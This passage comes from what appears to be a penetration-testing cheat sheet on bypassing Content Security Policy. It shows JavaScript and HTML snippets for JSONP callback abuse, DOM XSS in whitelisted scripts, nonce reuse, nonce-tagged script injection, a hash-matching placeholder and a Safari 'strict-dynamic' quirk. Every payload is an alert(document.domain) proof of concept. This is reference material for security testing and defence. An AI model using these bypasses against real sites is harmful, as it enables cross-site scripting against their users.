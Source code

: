 ```javascript
// When script-src includes trusted.com
var script = document.createElement('script');
script.src = "https://trusted.com/jsonp?callback=alert(document.domain)";
document.body.appendChild(script);
```

#### DOM XSS in Whitelisted Scripts

```javascript
// If the whitelisted script has a vulnerability
location.href = 'javascript:alert(document.domain)';
```

### Nonce-Based CSP Bypasses

#### Nonce Reuse

```html
<!-- When CSP includes: script-src 'nonce-r4nd0m' -->
<script nonce="r4nd0m">
  // Extract the nonce
  var nonce = document.querySelector('script').nonce;
  
  // Create a new script with the same nonce
  var script = document.createElement('script');
  script.nonce = nonce; // Reuse the nonce
  script.textContent = "alert(document.domain)";
  document.body.appendChild(script);
</script>
```

#### XSS via Script Injection with Nonce

```javascript
// If you can inject into the page's HTML generation
<script nonce="r4nd0m">alert(document.domain)</script>
```

### Hash-Based CSP Bypasses

#### Script Injection Matching Hash

```
// If CSP includes: script-src 'sha256-hash_value_here'
// You need to inject exactly the script that matches that hash
```

### Browser Bugs and Quirks

#### Safari Short Circuit

```
Content-Security-Policy: script-src 'strict-dynamic' 'nonce-abcdef'
```
In older Safari versions, 'strict-dynamic' was ignored, allowing normal CSP bypass.
